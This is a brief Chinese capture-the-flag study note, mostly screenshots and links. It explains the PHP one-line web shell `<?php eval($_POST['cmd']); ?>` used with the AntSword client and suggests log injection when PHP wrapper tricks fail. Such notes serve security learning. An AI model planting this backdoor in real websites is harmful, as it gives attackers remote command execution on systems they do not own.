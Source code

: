 [中国蚁剑用法](https://blog.csdn.net/m0_64338211/article/details/122528771)\[安装问题](https://blog.csdn.net/Ahuuua/article/details/109034528)

![image-20230625212723077](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230625212723077.png)

https://blog.csdn.net/qq_62708558/article/details/123030828  大概讲了这个一句话是什么作用

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230625213001779.png" alt="image-20230625213001779" style="zoom:50%;" />

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230625213059560.png" alt="image-20230625213059560" style="zoom:50%;" />

 <?php eval($_POST['cmd']); ?>这里的意思就是执行提交的变量。

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230625213352114.png" alt="image-20230625213352114" style="zoom: 33%;" />

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230625213535481.png" alt="image-20230625213535481" style="zoom:33%;" />

![image-20230625213641073](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230625213641073.png)

![image-20230625213654552](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230625213654552.png)

 所以以后我们遇见类似的题目时，php伪协议用不了可以尝试日志注入。

#### 方便下一个博客的链接点



















































